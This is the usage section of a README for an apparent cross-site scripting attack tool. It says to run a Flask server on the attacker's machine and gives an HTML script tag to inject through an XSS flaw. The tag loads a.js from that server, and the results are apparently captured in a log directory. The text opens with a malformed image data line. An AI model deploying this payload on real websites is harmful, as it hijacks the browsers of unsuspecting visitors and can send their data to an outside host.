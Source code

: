 
### usage
* requires python 3 and flask

run on your server:

```bash
python server.py 8091
```

load this script with an xss:
```html
<script/src="http://yourserver:8091/a.js"></script>
```

see the files in the log directory
